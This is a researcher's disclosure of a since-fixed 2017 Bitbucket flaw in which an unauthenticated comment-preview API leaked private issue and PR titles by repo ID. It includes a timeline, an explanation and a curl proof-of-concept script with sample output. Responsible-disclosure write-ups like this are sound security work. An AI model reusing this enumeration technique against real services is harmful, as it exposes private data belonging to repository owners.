 # Enumerating Bitbucket repos and private issue titles

This is a short dislosure of an already fixed vulnerability which I reported to Atlassian security in May 2017 and that was fixed back in August 2017. It should have been published long ago, but writing this note was delayed due to me being busy with [npm password re-use](Gathering-weak-npm-credentials.md) and other things, and with a burn-out after that.

This vulnerability allowed unauthorized users to read issue/pr titles of all the private Bitbucket repos, enumerating those using repo IDs (which look to be incremental).

I think that this has some value published even now. I'm still struggling with some personal problems, so this would be a rather short note. _I also have several more on the backlog (not related to Bitbucket, though) :wink:_.

Ref (private): [SEC-1539](https://securitysd.atlassian.net/servicedesk/customer/portal/2/SEC-1539).


## Timeline

* Reported: 2017-05-31
* Confirmed: 2017-05-31
* Fix ready: 2017-07-25
* Fix applied: 2017-08-07
* Published: 2018-05-10 15:00 UTC.

## The issue

1. Bitbucket supports Markdown in issue comments.
2. Markdown in Bitbucket comments translates `#1` to issue/pr links, e.g. like this:
  `<a href=\"/ChALkeR/hidden/issues/1/playbin\" rel=\"nofollow\" title=\"Playbin\">#1</a>`.
3. Bitbucket has comments preview, so that you could preview your comment before posting.
4. In order to do that, they use an API located at `https://bitbucket.org/!api/1.0/content-preview/`, which accepts repo id (numeric) and markdown text, and spits out formatted HTML code. That's the API their web interface itself requests to build a comment preview.
5. That API did not have any authorization control whatsoever and allowed anonymous access, which resulted in unauthorized users being able to enumerate repos (the numeric repo IDs look incremental) and extract all the private issue/PR titles. That was the issue.

## PoC

```bash
#!/bin/bash
curl 'https://bitbucket.org/!api/1.0/content-preview/' -H 'origin: https://bitbucket.org' -H 'accept-encoding: gzip, deflate, br' -H 'x-requested-with: XMLHttpRequest' -H 'x-csrftoken: 111' -H 'content-type: application/x-www-form-urlencoded; charset=UTF-8' -H 'accept: application/json, text/javascript, /; q=0.01' -H 'referer: https://bitbucket.org/' -H 'authority: bitbucket.org' -H 'cookie: csrftoken=111' --data 'content=issue #1 #2 #3 #4 #5 abc123456&repo_id='$1 --compressed
```

Produced this output (e.g. for `./get.sh 24698634`):
```json
{"markup": "<p>issue <a href=\"/ChALkeR/hidden-alert-1/issues/1/playbin\" rel=\"nofollow\" title=\"Playbin\">#1</a> <a href=\"/ChALkeR/hidden-alert-1/issues/2/poc-1-xss\" rel=\"nofollow\" title=\"PoC 1 — XSS\">#2</a> <a href=\"/ChALkeR/hidden-alert-1/issues/3/playbin-2\" rel=\"nofollow\" title=\"Playbin 2\">#3</a> <a href=\"/ChALkeR/hidden-alert-1/issues/4/playbin-3-ddd\" rel=\"nofollow\" title=\"Playbin #3 '"ddd\">#4</a> <a href=\"/ChALkeR/hidden-alert-1/issues/5/hidden\" rel=\"nofollow\" title=\"hidden\">#5</a> <a href=\"/ChALkeR/hidden-alert-1/commits/abc123456\" rel=\"nofollow\">abc123456</a></p>"}
```

Using that, the attacker was able to enumerate all the Bitbucket.org repos (that have at least one issue or a PR) with their owners,
and get the titles of all private issues.

Issue titles were unwrapped from the `#1 #2 #3 #4 #5` part — adding other numbers would have accessed other issues and exposed the titles of those.

_The «XSS» part is from another issue — see [here](Improper-markup-sanitization.md#bitbucket) to read about the Bitbucket XSS story._

---

If you have any questions to me, contact me over [Gitter](https://gitter.im/ChALkeR) (@ChALkeR) or IRC (ChALkeR@freenode).

This vulnerability report was not covered by any bounty reward programs, and I did not receive a monetary reward for it.\
If you want to support me so that I would be able to to keep what I am doing, consider supporting me on [Patreon](https://www.patreon.com/ChALkeR).\
Current supporters are listed on my [fundraising](https://github.com/ChALkeR/fundraising#personal-fundraising) page.
